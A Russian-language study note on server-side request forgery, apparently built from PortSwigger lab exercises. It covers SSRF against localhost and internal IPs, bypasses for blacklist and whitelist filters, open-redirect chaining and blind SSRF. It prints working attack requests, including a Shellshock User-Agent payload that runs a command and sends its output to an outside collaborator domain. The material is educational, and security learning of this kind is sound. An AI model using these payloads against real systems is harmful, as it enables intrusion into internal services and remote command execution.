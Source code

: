 [Server-side request forgery](https://portswigger.net/web-security/ssrf)

[SSRF Cheat Sheet & Bypass Techniques](https://highon.coffee/blog/ssrf-cheat-sheet)

# Распространенные атаки SSRF
### SSRF против самого сервера
При атаке SSRF на сам сервер злоумышленник заставляет приложение сделать HTTP-запрос обратно на сервер, на котором размещено приложение, через его loopback сетевой интерфейс. Обычно это включает в себя предоставление URL с именем хоста, например `127.0.0.1` или `localhost`.

Запрос к API для проверки наличия товара на складе:

```
POST /product/stock HTTP/1.0 Content-Type: application/x-www-form-urlencoded
Content-Length: 118

stockApi=http://stock.weliketoshop.net:8080/product/stock/check%3FproductId%3D6%26storeId%3D1
```

В этой ситуации злоумышленник может изменить запрос, чтобы указать URL, локальный для самого сервера:

```
POST /product/stock HTTP/1.0 
Content-Type: application/x-www-form-urlencoded 
Content-Length: 118 
stockApi=http://localhost/admin
```

### SSRF на другие внутренние системы

```
POST /product/stock HTTP/1.0
Content-Type: application/x-www-form-urlencoded
Content-Length: 118
stockApi=http://192.168.0.68/admin
```

# Обход распространенных способов защиты от SSRF
### SSRF с входными фильтрами на основе черных списков
Обход фильтра:
- альтернативные IP-представления `127.0.0.1`, например `2130706433`, `017700000001` или `127.1`
- регистрация собственного доменного имени, которое разрешается в `127.0.0.1`. Для этой цели можно использовать `spoofed.burpcollaborator.net`
- Обфускация заблокированных строк с помощью кодировки URL или изменения регистра

### SSRF с входными фильтрами на основе белых списков
Спецификация URL содержит ряд особенностей, которые могут быть упущены при реализации специального разбора и проверки URL:
- учетные данные в URL перед именем хоста, используя символ `@`:

	`https://expected-host@evil-host`

- символ `#` для обозначения фрагмента URL:

	`https://evil-host#expected-host`

- использовать иерархию именования DNS для размещения требуемого ввода в полностью определенном подконтрольном DNS-имени:

	`https://expected-host.evil-host`

- URL-кодировать символы, чтобы запутать код разбора URL. Это особенно полезно, если код, реализующий фильтр, обрабатывает кодированные символы URL иначе, чем код, выполняющий внутренний HTTP-запрос
- использовать комбинации этих методов вместе

### Обход фильтров SSRF через открытое перенаправление
Есть функционал перехода на следующую страницу, которая содержит уязвимость `open redirection`, при которой URL:

```
GET /product/nextProduct?currentProductId=1&path=http://192.168.0.12:8080
```

возвращает перенаправление на:

```
http://192.168.0.12:8080
```

Используем уязвимость для обхода фильтра URL и выполняем SSRF:

```
POST /product/stock HTTP/1.1
Host: ac951fab1ffef84ac0f0709400cb00a1.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 88

stockApi=/product/nextProduct?path=http://192.168.0.12:8080/admin
```

Этот SSRF-эксплойт работает потому что приложение сначала проверяет, что предоставленный URL `stockAPI` находится в разрешенном домене, что и происходит. Затем приложение запрашивает предоставленный URL, что вызывает открытое перенаправление. Оно следует перенаправлению и делает запрос на внутренний URL по выбору злоумышленника.

# Слепые SSRF ^91df93

Например, на сайте используется аналитическое программное обеспечение, которое получает URL, указанный в заголовке `Referer`, когда загружается страница продукта:

```
GET /product?productId=19 HTTP/1.1
Host: ac7a1ffc1e47dae5c097263d00ee00b7.web-security-academy.net
Referer: https://ac7a1ffc1e47dae5c097263d00ee00b7.web-security-academy.net/
```

Вызов запроса к серверу Burp Collaborator:

```
GET /product?productId=19 HTTP/1.1
Host: ac7a1ffc1e47dae5c097263d00ee00b7.web-security-academy.net
Referer: http://2wznfi7jzcg9hkmhurnhykpjfal69v.burpcollaborator.net
```

**Blind SSRF + shellshock**
Shellshock payload: 

```
() { :;}; echo "pwned"
```

Пример запроса:

```
GET /product?productId=1 HTTP/1.1
Host: ac901f3e1ea49cd3c054f7d2005b00d1.web-security-academy.net
User-Agent: () { :;}; /usr/bin/nslookup $(whoami).6fmtccqu58psg7aj77qad8m9j0psdh.burpcollaborator.net
Referer: http://192.168.0.§1§:8080
```

# Поиск скрытой поверхности атаки для уязвимостей SSRF
### Частичные URL-адреса в запросах
Иногда приложение помещает в параметры запроса `только имя хоста или часть пути URL`. Затем переданное значение включается на стороне сервера в полный URL, который запрашивается. Если значение легко распознается как имя хоста или путь URL, то потенциальная поверхность атаки может быть очевидной. Однако возможности использования SSRF могут быть ограничены, поскольку вы не контролируете весь URL, который запрашивается.

### URL в форматах данных
Некоторые приложения передают данные в форматах, спецификация которых позволяет включать URL, которые могут быть запрошены анализатором данных для данного формата. Очевидным примером этого является формат данных `XML`, который широко используется в веб-приложениях для передачи структурированных данных от клиента к серверу. Когда приложение принимает данные в формате `XML` и анализирует их, оно может быть уязвимо для `XXE-инъекции` и, в свою очередь, уязвимо для SSRF через `XXE`.

### SSRF через заголовок Referer
Некоторые приложения используют аналитическое программное обеспечение на стороне сервера, которое отслеживает посетителей. Такое ПО часто регистрирует заголовок `Referer` в запросах, поскольку он представляет особый интерес для отслеживания входящих ссылок. Часто аналитическое программное обеспечение фактически посещает любой сторонний URL, который появляется в заголовке `Referer`. Обычно это делается для анализа содержимого ссылающихся сайтов, включая якорный текст, который используется во входящих ссылках. В результате, заголовок `Referer` часто представляет собой плодотворную поверхность для атаки уязвимостей SSRF (см. [[ssrf#^91df93|Слепые SSRF]]).
